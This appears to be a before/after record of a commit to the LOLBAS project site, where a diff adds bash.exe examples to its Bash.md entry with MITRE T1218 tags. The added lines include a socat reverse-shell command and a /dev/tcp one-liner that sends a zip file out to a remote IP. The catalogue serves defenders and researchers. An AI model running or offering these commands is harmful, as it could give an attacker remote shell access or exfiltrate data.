

Before and after one commit to LOLBAS-Project/LOLBAS-Project.github.io, a Jekyll site: the page built from _lolbas/Binaries/Bash.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Added examples to bash.exe

```diff
--- a/_lolbas/Binaries/Bash.md
+++ b/_lolbas/Binaries/Bash.md
@@ -6,6 +6,22 @@
 Commands:
   - Command: bash.exe -c calc.exe
     Description: Executes calc.exe from bash.exe
+    Usecase: Performs execution of specified file, can be used as a defensive evasion.
+    Category: Execute
+    Privileges: User
+    MitreID: T1218
+    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
+    OperatingSystem: Windows 10
+  - Command: bash.exe -c "socat tcp-connect:192.168.9:66 exec:sh,pty,stderr,setsid,sigint,sane"
+    Description: Executes a reverseshell
+    Usecase: Performs execution of specified file, can be used as a defensive evasion.
+    Category: Execute
+    Privileges: User
+    MitreID: T1218
+    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
+    OperatingSystem: Windows 10
+  - Command: bash.exe -c 'cat file_to_exfil.zip > /dev/tcp/192.168.1.10/24'
+    Description: Exfiltrate data
     Usecase: Performs execution of specified file, can be used as a defensive evasion.
     Category: Execute
     Privileges: User
@@ -32,4 +48,6 @@
 Acknowledgement:
   - Person: Alex Ionescu
     Handle: '@aionescu'
+  - Person: Asif Matadar
+    Handle: '@d1r4c'
 ---
```
